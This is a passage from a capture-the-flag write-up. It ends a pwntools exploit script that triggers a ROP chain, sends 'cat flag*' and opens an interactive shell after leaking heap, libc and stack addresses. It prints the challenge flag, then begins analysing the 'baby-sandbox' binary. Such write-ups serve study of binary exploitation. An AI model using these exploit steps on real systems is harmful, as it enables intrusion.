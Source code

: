 ```python

    # return trigger ROP
    io.sendlineafter('>>>', b'5')

    sleep(1)
    io.send(b'cat flag*')

    info('leak: %#x', leak)
    info('heap base: %#x', heap)
    info('libc base: %#x', libc.address)
    info('libc environ: %#x', libc.sym['environ'])
    info('stack: %#x', stack)
    io.interactive()
    
if __name__ == '__main__':
    exploit()
```
{% endcode %}

{% hint style="success" %}
**Flag:** _amateursCTF{did\_you\_have\_fun?}_
{% endhint %}

***

## baby-sandbox

{% hint style="warning" %}
didn't solve during the CTF, after reading some post-competition discussion I think my approach and overall idea was on the right path.&#x20;

so I think it will be a good learning process to document what I'm missing and the pitfalls I encountered.
{% endhint %}

### Description

> How many different ways are there to make a syscall?

### Binary Analysis

given a binary, glibc and dockerfile, lets do some footprinting

{% code overflow="wrap" %}
```bash
└──╼ [★]$ tree .
.
├── chal
├── Dockerfile
├── exploit.py
├── flag.txt
└── lib
    ├── ld-linux-x86-64.so.2
    └── libc.so.6
    
└──╼ [★]$ file chal 
chal: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./lib/ld-linux-x86-64.so.2, BuildID[sha1]=b822117a5f3c171a60cc8879d6698ccfebe7f9dc, for GNU/Linux 4.4.0, not stripped

└──╼ [★]$ pwn checksec chal 
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
```
